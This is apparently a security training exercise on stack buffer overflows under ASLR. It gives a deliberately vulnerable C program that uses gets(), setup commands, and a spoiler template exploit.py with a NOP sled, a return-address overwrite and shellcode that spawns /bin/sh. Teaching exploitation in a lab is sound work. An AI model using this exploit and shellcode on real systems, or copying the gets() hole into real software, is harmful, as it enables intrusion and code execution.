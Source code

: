 # Exercise 5: The Stack and Buffer overflows 
Welcome to the 5th exercise of today. Here, we will learn more about ASLR, and attempt to do a "simple" buffer overflow much like in the earlier exercise.

<b>Useful links:</b>
* [What is ASLR](https://www.howtogeek.com/278056/what-is-aslr-and-how-does-it-keep-your-computer-secure/)
* [GDB/GEF Doc(https://gef.readthedocs.io/en/master/)


## Setup 

Firstly you have to turn make sure that you have ASLR turned on.
```
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
You should now be able to run the binary by
```
./victim
```
And you should recieve the output of:
```
0xffd62530
What's your name?
```
## The code
```c
#include <stdio.h>
int main() {
  char name[64];
  printf("%p\n", name);  // Print address of buffer.
  puts("What's your name?");
  gets(name);
  printf("Hello, %s!\n", name);
  return 0;
}

```
As you can see instead of the vulnerable file taking a fileargument it reads from stdin.
## Exercise 5a
Try to run the program again. Does the output change?

## Exercise 5b
Find the size of buffer. 
Does the size of the buffer change between executions?<br>

*You might need to use "aslr on" if you use gdb*
<details>
<summary>Hint</summary>
<i>Hint: Maybe you could use the outputted address for something? Or look at the disassembly?</i>
</details>

## Exercise 5c
Now that you have calculated the size of buffer, you need to run your exploit.

Since we are reading from stdin we are going to use pipes for this.<br>
Firstly create your pipe
```
    > mkfifo pipe
```
In order to run the program you can do such in <b>two</b> terminals<br>
Firstly run the vulnerable file
```
    > ./victim < <(cat pipe)
```
Then provide the input
```
    > echo 'AAAAAAAAAAAAAAAAAAAAAAAAAAA' > pipe
```
Alternatively you can use the exploit.py once it is filled in.
```
    > python exploit.py 0xffb98d40 > pipe
```
You can now create your input using python or any other language of your choice. If you find this too difficult you can open the spoiler below for a template.
<details>
<summary>SPOILER: Template for exploit </summary>

Let us now examine the exploit.py file
```py
    import struct, sys
    pad = "\x90" * (BUFF_SIZE - 4)
    EIP = struct.pack("I", int(sys.argv[1], base=16) + BUFF_SIZE)
    
    #You can use other shellcodes here!
    shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
    
    #NoOp Sled
    NOP = "\x90" * 100
    print pad + EIP + NOP + shellcode

```
Now alter this file with the your buffer size and do the exploit. <br>
<b>(NOTE: This file takes an address as an argument. Hmm I wonder which?)</b>
</details>

